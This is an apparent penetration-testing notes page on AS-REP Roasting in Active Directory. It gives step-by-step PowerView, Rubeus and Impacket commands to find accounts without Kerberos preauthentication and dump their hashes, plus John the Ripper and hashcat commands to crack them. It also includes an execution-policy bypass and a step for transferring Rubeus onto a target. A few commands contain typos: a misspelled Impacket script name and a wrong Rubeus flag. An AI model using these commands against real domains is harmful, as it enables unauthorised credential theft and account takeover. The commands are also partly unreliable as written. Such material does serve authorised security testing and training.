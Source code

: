# AS-REP Roasting

AS-REP Roasting takes advantage of the fact that some user accounts in AD may have the "**Do not require Kerberos preauthentication**" option **enabled**. This option allows the AS-REP to be requested without the need for the user's password.

#### AS-REP Roasting Method:

* **Find vulnerable users** of the domain with tools
* Do a **AS-REP attack** to get user TGT
* **Crack** the TGT obtained earlier&#x20;

## Find vulnerable user

First we have to detect all user in the domain that has "**Do not require Kerberos preauthentication**" option **enabled**.

### Detect with PowerView

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

```powershell
# import powerview module
powershell -ep bypass
. .\PATH\TO\PowerView.ps1
```

{% code title="Detect with PowerView " %}
```powershell
Get-Domainuser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
Get-DomainUser -PreauthNotRequired -verbose
```
{% endcode %}

### Detect with Rubeus.exe

```powershell
.\Rubeus.exe asreproast
```

### Detect with Impacket (linux)

```bash
impacket-GetNPUUsers.py $DOMAIN/ -dc-ip $DC_IP 
```



## AS-REP Attack

With this attack with can get the TGT of the vulnerable user.

### AS-REP with Rubeus.exe

{% embed url="https://github.com/GhostPack/Rubeus" %}

Transfer the executable into the target and run it with appropriate tag.

{% content-ref url="../../executive-pt/post-exploitation/trasferring-files.md" %}
[trasferring-files.md](../../executive-pt/post-exploitation/trasferring-files.md)
{% endcontent-ref %}

```powershell
.\Rubeus.exe asreproast /usr:$USER /outfile:tgthash.txt
.\Rubeus.exe asreproast /format:hashcat /outfile:tgthash.txt
```

### GetNPUsers.py

The **GetNPUsers.py** script from Impacket can be used to request a TGT ticket and dump the hash.

{% embed url="https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py" %}

With the users found in the previous part, run this command.

```bash
impacket-GetNPUsers $DOMAIN/$USER -dc-ip $DC_IP -dc-host $DOMAIN -no-pass
```

Save the hash in the file and move on.

## Crack the TGT

Once we have a output file with TGT ticket of a user in the Domain, we can try to crack it with JtR or Hashcat.

{% code overflow="wrap" %}
```bash
john PATH/TO/$tgt_hash.txt --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt
```
{% endcode %}

```bash
john $tgt_hash.txt --fork=4 -w=/PATH/TO/rockyou.txt
```

```bash
hashcat -m 18200 --force -a 0 $tgt_hash.txt PASS_LIST.txt
```









